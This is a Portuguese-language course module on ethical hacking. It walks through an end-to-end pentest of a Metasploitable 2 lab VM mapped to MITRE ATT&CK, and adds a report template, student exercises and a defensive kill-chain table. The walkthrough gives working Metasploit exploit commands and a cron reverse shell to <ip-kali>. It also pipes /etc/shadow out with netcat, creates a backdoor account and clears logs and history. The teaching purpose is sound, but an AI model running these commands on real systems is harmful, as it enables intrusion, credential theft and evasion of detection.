

# Juntando Tudo (745)

> [!quote] Do Início ao Fim
> *Aqui reunimos exemplos completos de hacking ético, passando por todas as etapas de um pentest, do reconhecimento ao relatório final. Este é o módulo de síntese da disciplina: tudo que foi aprendido separadamente é aqui aplicado em cadeia, contra um alvo de laboratório autorizado.*

> [!danger] Lei 12.737/2012, Art. 154-A (Invasão de Dispositivo Informático)
> Realizar qualquer das técnicas desta aula contra sistemas **sem autorização expressa** é crime federal, punível com reclusão de 1 a 4 anos. **Todo o conteúdo desta aula destina-se exclusivamente a ambientes de laboratório controlado**: HTB, TryHackMe, Metasploitable, DVWA, VMs próprias. Nunca contra terceiros.

---

## 🗺️ Metodologias de Referência (2026)

> [!info] Padrões da Indústria

Em 2026, o mercado converge para três frameworks complementares que um pentester profissional deve dominar:

| Framework | Foco | Quando usar |
|-----------|------|-------------|
| **PTES** (Penetration Testing Execution Standard) | Processo completo, do contrato ao relatório | Estruturar o engajamento inteiro |
| **MITRE ATT&CK v15+** | Catálogo de TTPs (Táticas, Técnicas, Procedimentos) mapeados a adversários reais | Documentar e reportar cada técnica utilizada |
| **Cyber Kill Chain** (Lockheed Martin) | Cadeia linear de 7 etapas do adversário | Entender e quebrar o ataque sob a ótica defensiva |

O **PTES** define *como rodar* o pentest. O **ATT&CK** define *o que nomear* cada ação. O **Kill Chain** define *onde defender*. Os três são usados juntos no relatório profissional.

### PTES: 7 Fases do Engajamento

1. **Pre-engagement:** escopo, autorização, regras de engajamento, NDA, cronograma
2. **Intelligence Gathering (Recon):** passivo e ativo, OSINT, mapeamento de superfície
3. **Threat Modeling:** identificar ativos críticos e vetores mais prováveis de ataque
4. **Vulnerability Analysis:** scan automatizado e análise manual de falhas
5. **Exploitation:** demonstrar impacto real, não apenas teórico
6. **Post-Exploitation:** mover lateralmente, escalar privilégios, coletar evidências
7. **Reporting:** relato executivo + técnico, CVSS, recomendações

### Cyber Kill Chain: 7 Elos

1. **Reconnaissance:** coleta de informação sobre o alvo
2. **Weaponization:** criação/adaptação do exploit ou payload
3. **Delivery:** entrega do payload (e-mail, upload, exploit remoto)
4. **Exploitation:** execução do código malicioso
5. **Installation:** persistência no sistema comprometido
6. **Command & Control (C2):** canal de comunicação com o atacante
7. **Actions on Objectives:** exfiltração, ransomware, destruição

---

## 🎯 Fases de um Pentest

> [!info] Metodologia Completa

```
1. Reconhecimento
      ↓
2. Escaneamento
      ↓
3. Exploração
      ↓
4. Pós-exploração
      ↓
5. Documentação
```

---

## 📋 Checklist Geral

> [!tip] Verificação por Fase

### 1. Reconhecimento

- [ ] WHOIS do domínio
- [ ] DNS enumeration
- [ ] Google dorking
- [ ] OSINT (redes sociais, vazamentos)
- [ ] Identificar tecnologias (Wappalyzer)

### 2. Escaneamento

- [ ] Nmap: descoberta de hosts
- [ ] Nmap: scan de portas
- [ ] Nmap: detecção de serviços
- [ ] Scan de vulnerabilidades (Nessus, OpenVAS)
- [ ] Web scanning (nikto, gobuster)

### 3. Exploração

- [ ] Pesquisar exploits (Exploit-DB, Metasploit)
- [ ] Testar vulnerabilidades encontradas
- [ ] Obter acesso inicial
- [ ] Documentar evidências

### 4. Pós-exploração

- [ ] Escalação de privilégios
- [ ] Movimentação lateral
- [ ] Coleta de dados sensíveis
- [ ] Persistência (se autorizado)

### 5. Documentação

- [ ] Compilar evidências
- [ ] Classificar vulnerabilidades (CVSS)
- [ ] Escrever relatório
- [ ] Apresentar resultados

---

## 🔗 Cadeia Completa: Kill Chain x MITRE ATT&CK

> [!info] Diagrama de Fluxo: da Recon ao Report



### Tabela de Mapeamento: Fase x ATT&CK x Ferramentas (2026)

| Fase do Pentest | Tática ATT&CK | ID | Técnicas Comuns | Ferramentas |
|-----------------|---------------|-----|-----------------|-------------|
| Reconhecimento passivo | Reconnaissance | TA0043 | T1596 (Search Open Tech DBs), T1593 (Search Social Media) | theHarvester, Shodan, Maltego, recon-ng |
| Reconhecimento ativo | Discovery | TA0007 | T1046 (Network Service Scan), T1083 (File/Dir Discovery) | Nmap, Masscan, Gobuster, Nikto |
| Acesso inicial | Initial Access | TA0001 | T1190 (Exploit Public-Facing App), T1078 (Valid Accounts) | Metasploit, SQLmap, Hydra |
| Execução | Execution | TA0002 | T1059 (Command/Script Interpreter), T1203 (Exploitation) | Metasploit, Netcat, MSFvenom |
| Persistência | Persistence | TA0003 | T1136 (Create Account), T1053 (Scheduled Task/Job) | Cron, useradd, backdoors |
| Escalada de privilégios | Privilege Escalation | TA0004 | T1068 (Exploit Vuln.), T1548 (Abuse Elevation Control) | LinPEAS, GTFOBins, Kernel exploits |
| Evasão de defesas | Defense Evasion | TA0005 | T1070 (Indicator Removal), T1027 (Obfuscation) | Logs clearing, encoding |
| Acesso a credenciais | Credential Access | TA0006 | T1003 (OS Credential Dump), T1110 (Brute Force) | Mimikatz, John, Hashcat |
| Movimentação lateral | Lateral Movement | TA0008 | T1021 (Remote Services), T1550 (Use Alt Auth Material) | SSH, RDP, Pass-the-Hash |
| Exfiltração | Exfiltration | TA0010 | T1041 (Exfil Over C2), T1048 (Exfil via Alt Protocol) | Netcat, curl, SCP |
| Relatório | N/A | N/A | CVSS 4.0, Evidências, Remediação | Dradis, Serpico, Word, Markdown |

---

## 🧭 Walkthrough End-to-End: Metasploitable 2 no Lab

> [!warning] Ambiente Autorizado Obrigatório
> Execute este walkthrough **somente** contra a VM Metasploitable 2 rodando na sua rede local de lab. IP do alvo nunca será um sistema de terceiros. Configure a VM em modo "Host-Only" ou "Internal Network" no VirtualBox/VMware.

Este walkthrough percorre a cadeia completa de ataque contra o Metasploitable 2, com cada comando mapeado ao ATT&CK. Veja os detalhes de cada fase nas aulas correspondentes: [[Coleta de informações]], [[Escaneamento de IPs e portas (Port Scanning)]], [[Mapeamento de vulnerabilidades]], [[Exploração do alvo]], [[Escalonamento de privilégios]], [[Manutenção do acesso]], [[Apagando rastros]], [[Documentação Report]].

---

### Fase 1: Recon (TA0043, TA0007)

**Objetivo:** mapear o alvo, descobrir serviços e versões.

```bash
# Descoberta de host na rede local de lab
nmap -sn 192.168.56.0/24

# Scan completo de portas com detecção de versão e scripts padrão
nmap -sC -sV -O -p- --open 192.168.56.101 -oA metasploitable_full

# Alternativa rápida (top 1000 portas)
nmap -sV -sC -T4 192.168.56.101

# Verificar serviços web
nikto -h http://192.168.56.101

# Enumerar diretórios web
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

**Resultado esperado:** portas abertas incluindo 21 (vsftpd 2.3.4), 22 (SSH), 23 (Telnet), 25 (SMTP), 80 (Apache), 445 (Samba 3.x), 3306 (MySQL), 5432 (PostgreSQL), 6667 (UnrealIRCd), 8180 (Tomcat).

**ATT&CK mapeado:** T1046 (Network Service Scanning), T1592 (Gather Victim Host Information).

---

### Fase 2: Análise de Vulnerabilidades (TA0007)

```bash
# Verificar vsftpd 2.3.4 (backdoor conhecida)
searchsploit vsftpd 2.3.4

# Verificar UnrealIRCd (backdoor)
searchsploit UnrealIRCd

# Verificar Samba (MS-RPC exploitável)
searchsploit samba 3.

# Enumeração SMB detalhada
enum4linux -a 192.168.56.101

# Verificar credenciais padrão Tomcat
curl -u tomcat:tomcat http://192.168.56.101:8180/manager/html
```

**ATT&CK mapeado:** T1595 (Active Scanning), T1190 (Exploit Public-Facing Application).

---

### Fase 3: Exploração, Acesso Inicial (TA0001, TA0002)

**Vetor 1: vsftpd 2.3.4 Backdoor (CVE-2011-2523)**

```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
# Shell obtida como root diretamente
id
# uid=0(root) gid=0(root)
```

**ATT&CK:** T1190 (Exploit Public-Facing App), T1059.004 (Unix Shell).

---

**Vetor 2: UnrealIRCd Backdoor (CVE-2010-2075)**

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.56.101
set RPORT 6667
run
# Shell como daemon; precisa privesc
```

---

**Vetor 3: Tomcat Manager Upload (CVE war-upload)**

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 192.168.56.101
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST <ip-kali>
run
# Sessão Meterpreter obtida
```

**ATT&CK:** T1078 (Valid Accounts, credenciais padrão), T1505.003 (Web Shell via WAR).

---

**Vetor 4: Samba MS-RPC (usermap_script, CVE-2007-2447)**

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
run
# Root shell imediata
```

---

### Fase 4: Pós-exploração, Escalada de Privilégios (TA0004, TA0006)

**Após sessão Meterpreter (Tomcat, não-root):**

```bash
# Coletar informações do sistema
sysinfo
getuid

# Tentar escalada local
getsystem

# Se falhar, usar sugestão de exploit
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

# Dump de hashes (requer root ou equivalente)
use post/linux/gather/hashdump
set SESSION 1
run
```

**No shell Unix (pós vsftpd, já root):**

```bash
# Confirmar acesso root
id && whoami && hostname

# Coletar /etc/shadow (credenciais)
cat /etc/shadow

# Listar processos e conexões
ps aux
netstat -antp

# Verificar arquivos SUID (vetor de escalada)
find / -perm -u=s -type f 2>/dev/null
```

**ATT&CK:** T1003 (OS Credential Dumping), T1548.001 (SUID/SGID), T1087 (Account Discovery).

---

### Fase 5: Persistência (TA0003)

```bash
# Adicionar chave SSH autorizada (autorizado no lab)
mkdir -p /root/.ssh
echo "<sua-chave-publica>" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Criar conta backdoor de lab
useradd -m -s /bin/bash labbackdoor
echo "labbackdoor:senha123" | chpasswd
usermod -aG sudo labbackdoor

# Cron job de persistência (lab)
echo "* * * * * /bin/bash -i >& /dev/tcp/<ip-kali>/4444 0>&1" | crontab -
```

**ATT&CK:** T1098 (Account Manipulation), T1053.003 (Cron), T1136 (Create Account).

> [!warning] Persistência em Lab
> Estas técnicas são demonstradas **somente em lab**. Persistência em sistemas sem autorização é crime (Art. 154-A, §4º: pena aumentada se cometida contra infraestrutura crítica).

---

### Fase 6: Coleta de Evidências e Exfiltração Simulada (TA0009, TA0010)

```bash
# Coletar arquivos sensíveis (demonstração lab)
cat /etc/passwd
cat /etc/shadow
ls /home/

# Simular exfiltração via netcat (lab)
# No Kali:
nc -lvp 9001 > evidence.txt
# No alvo:
cat /etc/shadow | nc <ip-kali> 9001

# Timestamps para relatório
date && uname -a && ip addr
```

**ATT&CK:** T1005 (Data from Local System), T1041 (Exfiltration Over C2 Channel).

---

### Fase 7: Apagar Rastros (TA0005)

```bash
# Limpar logs de autenticação (lab: demonstração)
> /var/log/auth.log
> /var/log/syslog

# Remover entradas do bash history
history -c
unset HISTFILE

# Remover conta de lab criada
userdel -r labbackdoor
crontab -r
```

**ATT&CK:** T1070.002 (Clear Linux/Mac System Logs), T1070.003 (Clear Command History).

---

### Fase 8: Mini-Relatório do Engajamento

> [!example] Modelo de Relatório Executivo (Lab)

**Engajamento:** Pentest Metasploitable 2, Lab Interno IFF
**Data:** 2026-06-17
**Scope:** 192.168.56.101 (Metasploitable 2, rede Host-Only)
**Autorização:** Ambiente de laboratório controlado, disciplina Segurança da Informação IFF

**Sumário Executivo:**
Foram identificadas e exploradas 4 vulnerabilidades críticas no alvo de laboratório. O acesso root foi obtido por múltiplos vetores, demonstrando postura de segurança inadequada para qualquer ambiente de produção.

**Vulnerabilidades Críticas (CVSS 9.0-10.0):**

| # | CVE | Serviço | CVSS | Impacto | Remediação |
|---|-----|---------|------|---------|------------|
| 1 | CVE-2011-2523 | vsftpd 2.3.4 | 10.0 | RCE como root | Atualizar vsftpd para versão sem backdoor |
| 2 | CVE-2010-2075 | UnrealIRCd 3.2.8.1 | 9.8 | RCE | Remover ou atualizar o serviço |
| 3 | CVE-2007-2447 | Samba 3.x | 9.3 | RCE como root | Atualizar Samba, desabilitar usermap |
| 4 | N/A | Tomcat Manager | 9.0 | RCE via WAR upload | Alterar credenciais padrão, restringir acesso |

**Linha do Tempo do Ataque:**
```
00:00 - Início do scan Nmap
00:03 - Identificação de vsftpd 2.3.4
00:05 - Exploração vsftpd: shell root obtida
00:08 - Dump de /etc/shadow
00:12 - Exploração Tomcat: sessão Meterpreter
00:18 - Persistência instalada (cron + conta lab)
00:22 - Evidências coletadas
00:25 - Rastros apagados
00:27 - Relatório iniciado
```

**Próximos Passos (Recomendações):**
1. Atualizar todos os serviços identificados com CVEs críticos
2. Remover serviços não necessários (Telnet, IRC)
3. Implementar política de senhas fortes para credenciais de administração web
4. Habilitar firewall e restringir portas expostas
5. Implementar monitoramento de logs (SIEM)

---

## 🎮 Plataformas para Prática

> [!success] Ambientes Seguros

| Plataforma | Descrição | Custo |
|------------|-----------|-------|
| **TryHackMe** | Rooms guiados para iniciantes e intermediários | Gratuito/Pago |
| **HackTheBox** | Máquinas CTF e labs profissionais | Gratuito/Pago |
| **VulnHub** | VMs vulneráveis para download local | Gratuito |
| **DVWA** | Aplicação web vulnerável para web hacking | Gratuito |
| **Metasploitable 2/3** | VM Linux com dezenas de vulnerabilidades conhecidas | Gratuito |
| **OWASP WebGoat** | Aplicação para aprender segurança web | Gratuito |
| **PentesterLab** | Exercícios práticos de web e binários | Gratuito/Pago |

---

## 📚 Exemplos de Walkthroughs

> [!info] Recursos para Estudo

*Esta seção é complementada pelo walkthrough end-to-end desta aula.*

| Máquina | Plataforma | Dificuldade | Técnicas |
|---------|------------|-------------|----------|
| Basic Pentesting | TryHackMe | Fácil | Nmap, Gobuster, SSH privesc, Brute-force |
| Metasploitable 2 | Local/VulnHub | Fácil/Médio | Metasploit, CVEs clássicos, Samba, vsftpd |
| Mr. Robot | TryHackMe/VulnHub | Médio | WordPress enum, privesc, brute force |
| Blue | HackTheBox | Fácil | EternalBlue (MS17-010), Meterpreter |

---

## 🧪 Atividades Mão-na-Massa

> [!example] 🧪 Atividade 1: Comprometer uma máquina do TryHackMe do Recon ao Root

**Plataforma:** TryHackMe (room "Basic Pentesting" ou "Mr. Robot")
**Objetivo:** Comprometer a máquina inteira (obter root/SYSTEM) e documentar a Kill Chain completa.

**Passos obrigatórios:**

1. Crie conta no TryHackMe (gratuito) e acesse a room indicada
2. Conecte-se via OpenVPN (arquivo `.ovpn` disponível no TryHackMe)
3. Execute o recon inicial com `nmap -sC -sV -T4 <ip-alvo>`
4. Enumere diretórios web com `gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
5. Identifique o vetor de entrada e execute a exploração
6. Escale privilégios até root (`sudo -l`, SUID binaries via `find / -perm -u=s 2>/dev/null`)
7. Capture o flag de root (`/root/root.txt` ou equivalente)

**Resultado esperado:**
- Print do `id` mostrando `uid=0(root)` ou flag capturado
- Cada comando executado registrado com timestamp
- Tabela preenchida: Fase, Ferramenta, Comando, Resultado, ATT&CK ID
- Mini-relatório de 1 página seguindo o modelo desta aula

**Entregável:** documento `.md` ou `.pdf` com a cadeia de ataque documentada, do primeiro comando Nmap ao flag de root, com pelo menos 3 técnicas ATT&CK mapeadas.

---

> [!example] 🧪 Atividade 2: Pentest no Metasploitable 2 com Mapeamento ATT&CK Completo

**Plataforma:** Metasploitable 2 local (VirtualBox, rede Host-Only)
**Objetivo:** Refazer o ataque descrito no walkthrough desta aula e escrever o mini-relatório completo do engajamento.

**Passos obrigatórios:**

1. Configure o Metasploitable 2 em VirtualBox, rede "Host-Only"
2. Confirme o IP da VM com `nmap -sn <sua-rede>/24` no Kali
3. Execute as Fases 1 a 7 do walkthrough desta aula em sequência
4. Para cada exploit executado, registre: nome da vulnerabilidade, CVE, comando exato, output obtido, tática ATT&CK, técnica ATT&CK
5. Preencha a tabela de vulnerabilidades do modelo de relatório
6. Escreva o relatório executivo completo (mínimo: sumário, tabela de vulns, linha do tempo, recomendações)

**Resultado esperado:**
- Mínimo 3 vetores de comprometimento executados e documentados
- Relatório com pelo menos 4 vulnerabilidades CVSS ≥ 9.0 listadas
- Seção de recomendações com uma contramedida específica por vulnerabilidade
- Evidências (prints/outputs) de cada fase

**Entregável:** relatório de pentest no formato profissional (`.pdf` ou `.md`), mínimo 3 páginas, incluindo tabela ATT&CK, linha do tempo e recomendações.

---

## 🛡️ Visão Defensiva: Onde Quebrar a Kill Chain

> [!tip] Defesa em Profundidade

Cada elo da Kill Chain pode ser interrompido com controles defensivos específicos. Um Blue Team experiente coloca camadas em múltiplos pontos para garantir que, mesmo que um controle falhe, o ataque seja detectado antes dos objetivos finais.

| Elo da Kill Chain | Como o Atacante Avança | Como o Defensor Quebra |
|-------------------|----------------------|----------------------|
| **Reconnaissance** | Varredura de portas, OSINT, Shodan | Minimizar superfície pública; alertas Shodan; honeypots |
| **Weaponization** | Criação de payload MSF, exploit customizado | Threat Intelligence: IOCs de novos exploits; CVE patching rápido |
| **Delivery** | Upload de arquivo, exploit remoto, e-mail de phishing | WAF, IPS, filtro de e-mail, restrição de uploads |
| **Exploitation** | Execução do exploit (ex: vsftpd backdoor) | Patch management; EDR; remover serviços desnecessários |
| **Installation** | Cron malicioso, conta backdoor, chave SSH | Auditoria de contas/cron; AIDE (file integrity); auditd |
| **Command & Control** | Reverse shell, Meterpreter, IRC bots | Firewall de saída (egress filtering); DPI; bloqueio de portas não padrão |
| **Actions on Objectives** | Dump de /etc/shadow, exfiltração de dados | DLP; alertas de acesso a arquivos sensíveis; segmentação de rede |

### Ferramentas Defensivas por Elo

- **Recon:** Shodan alerts, Censys monitoring, passive DNS
- **Exploitation:** Snort/Suricata (IDS/IPS), Wazuh, OSSEC
- **Installation/Persistência:** AIDE, Auditd, Osquery, Tripwire
- **C2:** Zeek (Bro), Pi-hole, pfSense com IDS inline
- **Exfiltração:** Suricata DPI, NetFlow analysis, Wireshark alerts

> [!info] Insight
> O custo de defesa é assimétrico: um atacante precisa acertar em apenas **um** elo. O defensor precisa cobrir **todos**. Por isso, defesa em profundidade combinada com monitoramento contínuo (SIEM, SOC) é a abordagem recomendada pela NIST SP 800-61 e pelo MITRE D3FEND.

---

## ⚠️ Lembrete Importante

> [!danger] Atenção
> - Pratique **apenas** em ambientes autorizados (art. 154-A: pena de 1 a 4 anos)
> - Documente **tudo** durante o processo (evidências são a entrega principal)
> - Use **VPN** ao acessar plataformas de prática (TryHackMe, HTB exigem)
> - Mantenha suas ferramentas **atualizadas** (Kali Rolling: `sudo apt update && sudo apt upgrade`)
> - Obtenha **autorização por escrito** antes de qualquer teste em ambiente real
> - Em caso de dúvida sobre legalidade: **não execute**. Consulte o art. 154-A e o escopo contratual

---

> [!note] 📚 Fontes (2026)
>
> - [Penetration Testing Methodology (2025/2026): Complete Guide, DeepStrike](https://deepstrike.io/blog/penetration-testing-methodology)
> - [PTES Technical Guidelines: The Penetration Testing Execution Standard](http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines)
> - [PTES Methodology: The 7-Phase Standard, DSET](https://dset.com.tr/en/blog/ptes-metodolojisi-7-asama-sizma-testi-standardi)
> - [MITRE ATT&CK Framework: Tactics, Techniques & Use Cases (2026), Wallarm](https://www.wallarm.com/what/what-is-the-mitre-attck-framewor)
> - [MITRE ATT&CK, The Practical Way to Use It in 2026, Penligent AI](https://www.penligent.ai/hackinglabs/mitre-attck-framework-the-practical-way-to-use-it-in-2026-security-engineering/)
> - [MITRE ATT&CK Framework Guide (2026): Detection, Hunting, Decryption Digest](https://www.decryptiondigest.com/blog/mitre-attack-framework-practitioner-guide)
> - [SIEM Threat Detection Mapped To MITRE ATT&CK And Kill Chain, NetWitness](https://www.netwitness.com/blog/siem-capabilities-to-mitre-attck/)
> - [Metasploitable 2: Penetration Testing Walkthrough, InfoSecTrain](https://www.infosectrain.com/blog/metasploitable-2-exploitation-walkthrough)
> - [Penetration Testing on Metasploitable 2 (Apr 2026), Medium](https://medium.com/@Pavan_cosmic/penetration-testing-on-metasploitable-2-a-beginners-complete-walkthrough-1ba0e556047b)
> - [MITRE ATT&CK Mapping for Linux Pentest Activities (2025), victsao.wordpress.com](https://victsao.wordpress.com/2025/07/11/7-10-2025-mitre-attck-mapping-for-linux-pentest-activities/)
> - [Basic Pentesting TryHackMe Walkthrough, InfoSec Write-ups](https://infosecwriteups.com/basic-pentesting-walkthrough-solving-the-tryhackme-lab-235af4cf8d3b)
> - [Step-by-Step Metasploitable2 Exploitation Guide, Guardyk](https://www.guardyk.com/tutorials/step-by-step-metasploitable2-exploitation-guide-for-penetration-testing-and-vulnerability-assessment/)
